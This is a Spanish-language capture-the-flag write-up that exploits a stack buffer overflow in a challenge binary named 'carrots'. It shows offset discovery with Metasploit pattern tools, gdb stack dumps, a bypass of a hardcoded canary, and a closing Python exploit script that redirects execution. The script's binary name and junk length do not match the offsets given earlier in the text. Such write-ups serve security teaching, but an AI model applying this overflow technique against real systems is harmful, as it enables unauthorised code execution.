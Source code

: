 ## **Enunciado**

Points: 300   
Country: Mexico   
Attatchment: https://mega.nz/#!twM1nYCA!qXDWql7ER6gLYj6eaT7iG-12sFdH3ozePk0VDl_xLwk   
Description: We all know that rabbits' favorite food is carrots. Help the rabbits to eat their favorite food today and be careful with the birds...good luck!   

## **Solución**

Se trata del clásico buffer overflow que peta cuando le metes más caracteres de los debidos:

```
./carrots 
 Where is my carrot?
 > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Segmentation fault
```
Veamos las protecciones que tiene el binario:

```
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Sólo tiene habilitado lal no ejecucción en la pila, vamos a crear un patrón de caracteres para averiguar el offset con metasploit:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

Lo metemos en gdb y nos da una dirección que se corresponde con una parte del patrón anteior. Esta dirección se la pasamos a metaspoit otra vez y nos da el offset:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 150 -q 0x37654136
[*] Exact match at offset 140
```

Si nos fijamos en la función main vemos que hay una llamada a la función que recoge nuestros datos por consola, esta función es vulnerable a un buffer overflow. Si metemos más de 140 caracteres vamos a sobreescribir el stack frame de main.

```
 08049790 <main>:
 8049790:	55                   	push   ebp
 8049791:	89 e5                	mov    ebp,esp
 8049793:	81 ec a8 00 00 00    	sub    esp,0xa8
 8049799:	c7 45 fc 44 52 49 42 	mov    DWORD PTR [ebp-0x4],0x42495244
 80497a0:	c7 45 f8 00 00 00 00 	mov    DWORD PTR [ebp-0x8],0x0
 80497a7:	e8 64 fa ff ff       	call   8049210 <_Z6bannerv>             <== Pinta el dibujito
 80497ac:	8d 05 4a a0 04 08    	lea    eax,ds:0x804a04a
 80497b2:	89 04 24             	mov    DWORD PTR [esp],eax
 80497b5:	e8 a6 f7 ff ff       	call   8048f60 <printf@plt>             <== Muestra la pregunta por pantalla
 80497ba:	8d 0d a0 c0 04 08    	lea    ecx,ds:0x804c0a0
 80497c0:	8d 95 78 ff ff ff    	lea    edx,[ebp-0x88]
 80497c6:	89 0c 24             	mov    DWORD PTR [esp],ecx
 80497c9:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80497cd:	89 85 74 ff ff ff    	mov    DWORD PTR [ebp-0x8c],eax
 80497d3:	e8 c8 f7 ff ff       	call   8048fa0                          <== Función vulnerable que recoge los datos introducidos
 80497d8:	81 7d f8 00 00 00 00 	cmp    DWORD PTR [ebp-0x8],0x0
 80497df:	89 85 70 ff ff ff    	mov    DWORD PTR [ebp-0x90],eax
 80497e5:	0f 85 14 00 00 00    	jne    80497ff <main+0x6f>
 80497eb:	31 c0                	xor    eax,eax
 80497ed:	c7 04 24 00 00 00 00 	mov    DWORD PTR [esp],0x0
 80497f4:	89 85 6c ff ff ff    	mov    DWORD PTR [ebp-0x94],eax
 80497fa:	e8 a1 f8 ff ff       	call   80490a0 <exit@plt>
 80497ff:	31 c0                	xor    eax,eax
 8049801:	8b 4d f8             	mov    ecx,DWORD PTR [ebp-0x8]          
 8049804:	89 0d d0 c1 04 08    	mov    DWORD PTR ds:0x804c1d0,ecx    
 804980a:	8b 4d fc             	mov    ecx,DWORD PTR [ebp-0x4]
 804980d:	89 0d d4 c1 04 08    	mov    DWORD PTR ds:0x804c1d4,ecx
 8049813:	8b 4d 04             	mov    ecx,DWORD PTR [ebp+0x4]
 8049816:	89 0d d8 c1 04 08    	mov    DWORD PTR ds:0x804c1d8,ecx
 804981c:	81 c4 a8 00 00 00    	add    esp,0xa8
 8049822:	5d                   	pop    ebp
 8049823:	c3                   	ret                                     <== Sobreescribir aquí el EIP antes de llamar a ret

```
Situación de la pila después de la llamada a la función y tras haber introducido 140 caracteres, los últimos 4 caracteres son diferentes para identificar donde está la posición de memoria de retorno que hemos machacado:

```
br *0x80497d8
 > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

gdb-peda$ x/64xw $esp
0xbffff290:	0x0804c0a0	0xbffff33c	0xb7dbfe00	0xb7dbfdfc
0xbffff2a0:	0xb7fac504	0xb7c13618	0xb7c3a870	0x00000018
0xbffff2b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff2c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff2d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff2e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff2f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff300:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff310:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff320:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff330:	0x41414141	0x41414141	0x42424242	0xb7c24200
```

Una vez que sabemos que si introducimos 140 caracteres va a sobreescribir el EIP del stack frame de main, si metemos 136 caracteres y una dirección de memoria donde dirigir el flujo del programa (posición ocupada por BBBB y cuyoo valor es 0xbffff33c). Lo suyo sería dirigir el programa hacia una dirección donde nos muestre el flag que buscamos, pero... ¿cual es esa dirección de memoria?
Si echamos un vistazo a las strings, vemos que hay unas cadenas que podrían darnos una pista de donde va a mostrarnos el flag:

```
rabin2 -z carrots | grep arrot
vaddr=0x08049fd5 paddr=0x00001fd5 ordinal=018 sz=38 len=37 section=.rodata type=ascii string=\n Yes! My Carrot is here! mmmm ... \n 
```

Buscando en el código encontramos la función desde la que se llama a esa string:

```
objdump -M intel -drw carrots | grep 49fd5 -6
08049570 <_Z6CARROTv>:
 8049570:	55                   	push   ebp
 8049571:	89 e5                	mov    ebp,esp
 8049573:	53                   	push   ebx
 8049574:	56                   	push   esi
 8049575:	81 ec 90 00 00 00    	sub    esp,0x90
 804957b:	8d 05 d5 9f 04 08    	lea    eax,ds:0x8049fd5          <== Dirección de la string que buscamos con el grep
 8049581:	89 04 24             	mov    DWORD PTR [esp],eax
 8049584:	e8 d7 f9 ff ff       	call   8048f60 <printf@plt>
 8049589:	81 3d d4 c1 04 08 44 52 49 42 	cmp    DWORD PTR ds:0x804c1d4,0x42495244
 8049593:	89 45 a8             	mov    DWORD PTR [ebp-0x58],eax
 8049596:	0f 84 22 00 00 00    	je     80495be <_Z6CARROTv+0x4e>
 804959c:	8d 05 fb 9f 04 08    	lea    eax,ds:0x8049ffb

```

Nuestra función objetivo es "_Z6CARROTv", sólo nos queda apuntar el EIP a 0x08049570. Si lo probamos dentro del gdb, hay que cambiar las BBBB  que está en la posición 0xbffff33c por el valor 0x08049570:

```
set {int}0xbffff33c=0x08049570
```
```
gdb-peda$ c
Continuing.

 Yes! My Carrot is here! mmmm ... 
  ~(‾▿‾)~   Oh NO! We hate birds :( 
```

Ooops! Something is wrong here. ¿Qué ha pasado? Parece que no era tan fácil como parecía. Echemos un vistazo a la función "_Z6CARROTv" a ver si encontramos algo:

```
 8049575:	81 ec 90 00 00 00    	sub    esp,0x90
 804957b:	8d 05 d5 9f 04 08    	lea    eax,ds:0x8049fd5
 8049581:	89 04 24             	mov    DWORD PTR [esp],eax
 8049584:	e8 d7 f9 ff ff       	call   8048f60 <printf@plt>
 8049589:	81 3d d4 c1 04 08 44 52 49 42 	cmp    DWORD PTR ds:0x804c1d4,0x42495244    <= Compara el contenido de una posición de memoria con el valor 0x42495244
 8049593:	89 45 a8             	mov    DWORD PTR [ebp-0x58],eax
 8049596:	0f 84 22 00 00 00    	je     80495be <_Z6CARROTv+0x4e>
 804959c:	8d 05 fb 9f 04 08    	lea    eax,ds:0x8049ffb
 80495a2:	89 04 24             	mov    DWORD PTR [esp],eax
 80495a5:	e8 b6 f9 ff ff       	call   8048f60 <printf@plt>
 80495aa:	31 c9                	xor    ecx,ecx
 80495ac:	c7 04 24 00 00 00 00 	mov    DWORD PTR [esp],0x0
 80495b3:	89 45 a4             	mov    DWORD PTR [ebp-0x5c],eax
 80495b6:	89 4d a0             	mov    DWORD PTR [ebp-0x60],ecx
 80495b9:	e8 e2 fa ff ff       	call   80490a0 <exit@plt>
 80495be:	a1 d8 c1 04 08       	mov    eax,ds:0x804c1d8
```

Tenemos una comparación entre el valor 0x42495244 (que en ASCII es 'BIRD", ¡son unos cachondos dando pistas!)  y la posición de memoria 0x804c1d4, que es la variable 'c1' y contiene lo siguiente:

```
x/32xw 0x804c1d4
0x804c1d4 <c1>:	0x41414141	0xb7c24200	0x00000000	0x00000000
```
Mmm... no creo que sea casualidad que haya 'AAAA' en esa posición de memoria. Sospecho que en la función main guarda un valor en esa posición de memoria para asegurarse que nadie modifica la pila. Lo que se conoce como el canary stack, pero debe ser un canary hardcodeado en el propio código porque antes hemos visto que no estaba habilitado esa protección en el binario. Volvamos a la función main y veamos cuando guarda ese valor y como podemos saltarnos el canary hardcodeado:

```
 08049790 <main>:
 8049790:	55                   	push   ebp
 8049791:	89 e5                	mov    ebp,esp
 8049793:	81 ec a8 00 00 00    	sub    esp,0xa8
 8049799:	c7 45 fc 44 52 49 42 	mov    DWORD PTR [ebp-0x4],0x42495244
 80497a0:	c7 45 f8 00 00 00 00 	mov    DWORD PTR [ebp-0x8],0x0
 ...........
 80497ff:	31 c0                	xor    eax,eax
 8049801:	8b 4d f8             	mov    ecx,DWORD PTR [ebp-0x8]          
 8049804:	89 0d d0 c1 04 08    	mov    DWORD PTR ds:0x804c1d0,ecx    
 804980a:	8b 4d fc             	mov    ecx,DWORD PTR [ebp-0x4]
 804980d:	89 0d d4 c1 04 08    	mov    DWORD PTR ds:0x804c1d4,ecx
 8049813:	8b 4d 04             	mov    ecx,DWORD PTR [ebp+0x4]
 8049816:	89 0d d8 c1 04 08    	mov    DWORD PTR ds:0x804c1d8,ecx
 804981c:	81 c4 a8 00 00 00    	add    esp,0xa8
 8049822:	5d                   	pop    ebp
 8049823:	c3                   	ret                                   
```


```
br *0x804981c

set {int}0xbffff334=0x42495244
set {int}0xbffff338=0x00000000
set {int}0xbffff33c=0x08049570
evitar canary
```

```python
#!/usr/bin/python
# Fichero pwn_please_no.py 
# Exploit ROP


from struct import pack

binary = "please-no"
junk = "A" * 132

rop = pack('<I', 0x42495244)   
rop += pack('<I', 0x00000000)    
rop += pack('<I', 0x08049570)   


payload = junk + rop 
print payload
```
